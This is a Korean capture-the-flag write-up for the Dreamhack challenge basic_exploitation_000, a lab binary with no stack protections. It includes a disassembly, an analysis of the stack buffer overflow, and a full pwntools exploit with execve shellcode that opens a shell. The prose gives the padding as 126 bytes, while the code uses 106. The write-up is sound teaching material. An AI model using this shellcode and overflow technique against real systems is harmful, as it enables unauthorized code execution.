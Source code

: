 ```yaml
---
title: basic_exploitation_000
author: hwang
date: 2024-05-12 17:43:00 +0900
categories: [Dreamhack, System Hacking]
tags: [basic_exploitation_000]     # TAG names should always be lowercase
---
```


# basic_exploitation_000

## Description
이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_000)의 바이너리와 소스 코드가 주어집니다.
프로그램의 취약점을 찾고 익스플로잇해 셸을 획득한 후, "flag" 파일을 읽으세요.
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
플래그의 형식은 DH{...} 입니다.

## Environment
```text
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

## Solution
먼저, basic_exploitation_000에 적용된 보안 기법을 확인하였다.
```bash
$ checksec basic_exploitation_000
```
결과는 위의 Environment와 같다. x86 아키텍쳐에서 작동하고, canary나 NX, ASLR등이 적용되어 있지 않다.

이후, 이 프로그램의 스택 프레임을 확인하기 위해, 어셈블리어를 분석하였다. pwndbg을 이용하여 디버깅을 하였다.
```bash
$ sudo gdb -q basic_exploitation_000

pwndbg> disassemble main
```
main함수를 disassemble한 결과는 다음과 같다.
```text
Dump of assembler code for function main:
   0x080485d9 <+0>:	push   ebp
   0x080485da <+1>:	mov    ebp,esp
   0x080485dc <+3>:	add    esp,0xffffff80
   0x080485df <+6>:	call   0x8048592 <initialize>
   0x080485e4 <+11>:	lea    eax,[ebp-0x80]
   0x080485e7 <+14>:	push   eax
   0x080485e8 <+15>:	push   0x8048699 //"buf = (%p)\n"
   0x080485ed <+20>:	call   0x80483f0 <printf@plt>
   0x080485f2 <+25>:	add    esp,0x8
   0x080485f5 <+28>:	lea    eax,[ebp-0x80]
   0x080485f8 <+31>:	push   eax
   0x080485f9 <+32>:	push   0x80486a5 //"%141s"
   0x080485fe <+37>:	call   0x8048460 <__isoc99_scanf@plt>
   0x08048603 <+42>:	add    esp,0x8
   0x08048606 <+45>:	mov    eax,0x0
   0x0804860b <+50>:	leave  
   0x0804860c <+51>:	ret    
End of assembler dump.
```
어셈블리어를 통해 처음 버퍼의 주소값을 출력하고, 이후 버퍼에 141바이트 만큼 입력받는다. 버퍼의 크기가 128바이트(0x80)이므로, 스택 버퍼 오버플로우 공격을 통해 쉘을 얻을 수 있다. 

ebp레지스터의 크기는 32비트에서 4바이트이므로, scanf를 우회하는 26바이트의 쉘코드에 임의의 문자를 126바이트 입력하고, 이후 버퍼의 주소값을 입력하는 페이로드를 작성하면 쉘코드를 실행시킬 수 있다.

파이썬을 이용하여 exploit 코드를 만들었다.

```python
from pwn import *

p = process('./basic_exploitation_000')

data = p.recvuntil(b'buf = (')
data = int(p.recvn(10), 16)

shellcode = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"

payload = shellcode
payload += b"A"*106
payload += p32(data)


p.sendafter(')',payload)
p.interactive()
```

이후 실행시키면 잘 작동한다.
